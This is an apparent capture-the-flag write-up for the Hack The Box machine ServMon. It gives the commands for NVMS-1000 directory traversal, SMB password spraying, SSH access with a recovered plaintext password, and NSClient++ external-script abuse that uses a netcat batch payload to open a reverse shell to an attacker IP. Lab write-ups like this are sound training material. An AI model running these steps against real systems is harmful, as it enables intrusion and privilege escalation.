# HTB - ServMon

**IP Address:** `10.10.10.184`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #FTP, #NVMS-1000, #DirectoryTraversal, #CrackMapExec, #SSH, #NSClient++, #PrivilegeEscalation

> **Vault note:** This README matches the solved run documented in `notes/ctf/htb-ServMon.md`. Redact flags, hashes, and passwords if you publish a public writeup.

---
## Synopsis

ServMon is an easy Windows machine exposing **FTP**, **HTTP (NVMS-1000)**, and later **NSClient++** on **8443**.  
Anonymous FTP reveals usernames and hints that **Passwords.txt** sits on another user’s desktop.  
**Directory traversal** in NVMS-1000 is abused (via **Burp Suite**) to read that file offline, yielding pairs for **SMB password spraying**. Valid credentials allow **SSH** as a low-privileged user.  
**Privilege escalation** targets **NSClient++**: recover the web UI password locally, reach the UI through **SSH local port forwarding**, then use **external scripts** to execute a payload and obtain **`NT AUTHORITY\SYSTEM`**.

---
## Skills Required

- Basic TCP enumeration with **Nmap**  
- **FTP** and **SMB** familiarity (anonymous access, password spraying)  
- **HTTP** testing with **Burp Suite** (Repeater)  
- **Windows** post-exploitation basics (**SSH** port forwarding, service abuse)

## Skills Learned

- Exploiting **directory traversal** in **NVMS-1000** to read arbitrary files  
- Correlating recovered credentials with **CrackMapExec** against **SMB**  
- Recovering **NSClient++** secrets with `nscp` and abusing the web console  
- Using **SSH local port forwarding** to access a service bound to localhost  

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

We send a single ICMP echo request to confirm the target is reachable:

```bash
ping -c 1 10.10.10.184
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

We scan all TCP ports with a fast SYN scan and save grepable output for parsing:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.184 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

From the full port list, we run default scripts and version detection on the open ports identified during enumeration:

```bash
nmap -p21,22,80,135,139,445,5666,6063,6699,8443,49664,49665,49666,49667,49668,49669,49670 -sC -sV 10.10.10.184 -oN targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  

```bash
cat targeted
```




**Findings:**

| Port(s) | Service | Notes |
| --- | --- | --- |
| 21 | FTP | Microsoft ftpd |
| 22 | SSH | OpenSSH for Windows |
| 80 | HTTP | NVMS-1000 / surveillance UI |
| 135 | MSRPC | Windows RPC |
| 139 / 445 | SMB | Microsoft-DS |
| 8443 | HTTPS | NSClient++ web interface (seen later) |
| 49664–49670 | high ports | RPC / dynamic endpoints |

---
## 2. Service Enumeration

### 2.1 FTP Anonymous Access

Port **21** allows **anonymous FTP**, which is a good first pivot to recover usernames and filenames without credentials:

```bash
ftp 10.10.10.184
```

Use username `anonymous` with a blank or email-style password when prompted.



Two home directories appear: **Nadine** (file `Confidential.txt`) and **Nathan** (file `Notes_to_do.txt`). Pull both files locally and read them.

**Confidential.txt** states that **Passwords.txt** was left on Nathan’s desktop:



**Notes_to_do.txt** includes a reminder to review **NVMS-1000** (monitoring software), pointing toward the web service on port **80**:



---
### 2.2 NVMS-1000 Web Application

Browse to **`http://10.10.10.184`** in a browser to reach the **NVMS-1000** monitoring interface. Default credentials **admin / 123456** are worth a quick try; they did not work in this run.

```text
Open http://10.10.10.184 in the browser (NVMS-1000).
```



---
## 3. Foothold

### 3.1 NVMS-1000 Directory Traversal (SearchSploit)

**SearchSploit** lists a **directory traversal** issue affecting **NVMS-1000**. Reviewing the advisory text explains how paths can escape the web root—useful for reading files we cannot reach over FTP alone:

```bash
searchsploit NVMS
```



Inspect the published text for exact request patterns:

```bash
searchsploit -x hardware/webapps/47774.txt
```



---
### 3.2 Path Traversal via HTTP (Burp Suite)

To control the raw request and iterate on traversal depth, proxy the browser through **Burp Suite**, intercept a request to the NVMS application, and send it to **Repeater**.

```text
Burp Suite: enable Proxy listener; point the browser at http://10.10.10.184 through the proxy.
```

Capture a baseline **`GET /Pages/login.htm`** request in **Repeater** (or send from **Proxy** after intercept):



Modify the path to walk up the directory tree and read a known Windows file—**`win.ini`** confirms the traversal works:



Repeat with a traversal targeting the Windows **`hosts`** file under **`System32\Drivers\etc`**:



Then point the traversal at **Nathan’s** desktop file **`Passwords.txt`** and recover its contents in the response body:



Split the recovered lines into **`users.txt`** and **`passwords.txt`** for spraying (one username and one password per line, aligned by row as in the recovered file):



---
### 3.3 SMB Credential Testing and SSH Access

Spray the paired lists against **SMB** to find any valid account (continue on success to catch multiple hits):

```bash
crackmapexec smb 10.10.10.184 -u users.txt -p passwords.txt --continue-on-success
```



A valid line appears for **Nadine**; save the password for reuse (example: a local **`credentials`** file):



Verify the pair explicitly:

```bash
crackmapexec smb 10.10.10.184 -u 'Nadine' -p 'L1k3B1gBut7s@W0rk'
```



SMB reports valid credentials but not **Pwn3d**, so **WinRM**-style remote shells are not the immediate path. **SSH** on port **22** is available, so reuse the same password there:

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184
```

After the SSH session lands in a Windows shell, confirm the user context and read **`user.txt`**:



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Local Enumeration and NSClient++ Surface

On the host, **Nadine** has no obvious admin paths or privileged group memberships in the quick review from the notes:



Revisit the service map: **8443/tcp** serves an **NSClient++** HTTPS console and prompts for a password without requiring a Windows username in the browser:



**SearchSploit** also lists a **local privilege escalation** path involving **NSClient++**, which matches our interactive shell as **Nadine**:

```bash
searchsploit NSClient++
```



Read the referenced advisory (**46802**) for the local **`nscp`** password recovery and **external script** abuse outline:



---
### 4.2 Recovering the NSClient++ Web Password

From a shell on the target, change into the **NSClient++** install folder and print the configured web password (as described in **46802**):

```bat
cd "C:\Program Files\NSClient++"
nscp web --password --display
```



Direct browser access to **`https://10.10.10.184:8443`** from the attacker machine returns **403** even with the correct password—access is effectively treated as non-local:



---
### 4.3 SSH Local Port Forwarding

Open a tunnel so local **8443** forwards to the target’s loopback **8443**, then browse **`https://localhost:8443`** on the attacker host:

```bash
sshpass -p 'L1k3B1gBut7s@W0rk' ssh Nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

After signing in, the **Home** dashboard loads over **`localhost`** (expected once the forward is up):



Confirm required modules (**CheckExternalScripts**, **Scheduler**) are enabled under **Modules** as described in the exploit write-up:



---
### 4.4 Preparing Payloads and Transfer

Unpack **netcat for Windows** and author an **`evil.bat`** that calls back to your IP and listener port (this run used **`10.10.14.22`** and **`443`** to match **`c:\temp\nc.exe`** in the batch file):

```bash
unzip netcat-win32-1.12.zip
cat evil.bat
```



Serve the folder with **Impacket**’s **`smbserver`**. A straight anonymous guest pull from the target can fail under **guest logon** hardening:

```bash
impacket-smbserver smbFolder $(pwd) -smb2support
```



Recreate the share with credentials and mount it from the victim (example user **`kali`** / password **`kali123`**):

```bash
impacket-smbserver smbFolder $(pwd) -smb2support -username kali -password kali123
```

```bat
net use x: \\10.10.14.22\smbFolder /user:kali kali123
```



Copy **`evil.bat`** and **`nc64.exe`** (as **`nc.exe`**) into **`C:\Temp`** on the target:



---
### 4.5 External Script Execution

Start a listener on the port configured in **`evil.bat`** (here, **443**):

```bash
nc -nlvp 443
```

In **NSClient++** (**Settings → External Scripts → Scripts**), add a script mapping (this run uses key **`reverse`** pointing at **`c:\temp\evil.bat`**), then **Changes → Save configuration** and **Control → Reload**:



When the job fires, the listener receives a shell as **`NT AUTHORITY\SYSTEM`**; collect **`root.txt`** from the Administrator profile:



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate open ports; identify **FTP**, **HTTP (NVMS-1000)**, **SMB**, **SSH**, and **HTTPS (NSClient++)**.  
2. Use anonymous **FTP** for usernames and hints; browse **NVMS-1000** on port **80**.  
3. Exploit **directory traversal** (documented in **SearchSploit**) via **Burp Repeater** to read **`Passwords.txt`**.  
4. Build **`users.txt`** / **`passwords.txt`** and spray **SMB** with **CrackMapExec**; obtain **Nadine**’s password and access via **SSH**.  
5. Recover the **NSClient++** web password with **`nscp`**, reach the UI through **SSH local port forwarding**, enable **external scripts**, transfer **netcat** and a batch payload, then execute to get **SYSTEM**.

---
## Defensive Recommendations

- Disable or restrict **anonymous FTP**; do not store credential hints on shared anonymous folders.  
- Patch or replace **NVMS-1000**; validate input paths to prevent **directory traversal**.  
- Enforce strong per-service credentials; avoid password lists on user desktops.  
- Harden **NSClient++**: limit script execution, protect the web UI, and restrict who can modify **external scripts**.  
- Prefer **firewall** rules so management interfaces (e.g. **8443**) are not exposed broadly when not required.  
